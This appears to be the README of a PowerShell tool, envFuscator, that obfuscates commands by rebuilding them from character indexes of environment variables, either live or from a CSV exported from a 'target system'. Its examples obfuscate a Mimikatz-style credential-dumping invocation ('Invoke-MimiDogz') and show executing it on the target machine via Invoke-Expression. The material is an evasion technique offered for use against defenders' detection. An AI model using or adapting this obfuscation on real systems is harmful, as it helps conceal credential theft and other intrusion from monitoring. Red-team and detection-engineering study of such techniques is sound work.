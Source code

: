 ## envFuscator  
  
![envFuscator](https://i.redd.it/iib2ote3l4d11.png)
  
#### Reconstructs command text by referencing env value character indexes. Can be run live and pull values directly from a host's env variables or alternatively by importing a csv file export of env variables from a target system.  
  
##### Parameter cmd  
Indicates the command being obfuscated.  
  
##### Parameter csvFile  
Optionally specifies a csv file to read env variables from, generated via "ls env: | Export-Csv -Path outputPath"  
  
##### Example  
```powershell
.\envFuscator.ps1 -cmd Get-Service  
  
${env:ENV_PATH}[24] + ${env:PUBLIC}[5] + ${env:TOOLSEXT_PATH}[31] + ${env:Path}[255] + ${env:Path}[3] + ${env:CommonProgramFiles(x86)}[4] + ${env:ELGO_PATH_V11_0}[5] + ${env:Path}[13] + ${env:USERPROFILE}[5] + ${env:LOCALAPPDATA}[4] + ${env:USERNAME}[2]  
```
  
##### Example  
```powershell
.\envFuscator.ps1 -cmd Invoke-MimiDogz -csvFile C:\Data\env.csv  
  
${env:APP_PROFILE_STRING}[0] + ${env:DriverData}[5] + ${env:JRECOREROOT}[47] + ${env:IMGSOURCE}[5] + ${env:OBO_PATH}[42] + ${env:ChocolateyInstall}[23] + ${env:Path}[255] + ${env:PATHEXT}[3] + ${env:SetaBase}[12] + ${env:ChocolateyInstall}[9] + ${env:DABASAMPLES_ROOT}[30] + ${env:ChocolateyInstall}[10] + ${env:OneDrive}[12] + ${env:DABA_PATH}[6] + 'z'  

```
  
The resulting obfuscated output can be used to run commands on the target machine by wrapping with Invoke-Expression or a similar method.  
  
```powershell
iex ( ${env:APP_PROFILE_STRING}[0] + ${env:DriverData}[5] + ${env:JRECOREROOT}[47] + ${env:IMGSOURCE}[5] + ${env:OBO_PATH}[42] + ${env:ChocolateyInstall}[23] + ${env:Path}[255] + ${env:PATHEXT}[3] + ${env:SetaBase}[12] + ${env:ChocolateyInstall}[9] + ${env:DABASAMPLES_ROOT}[30] + ${env:ChocolateyInstall}[10] + ${env:OneDrive}[12] + ${env:DABA_PATH}[6] + 'z' )  
```
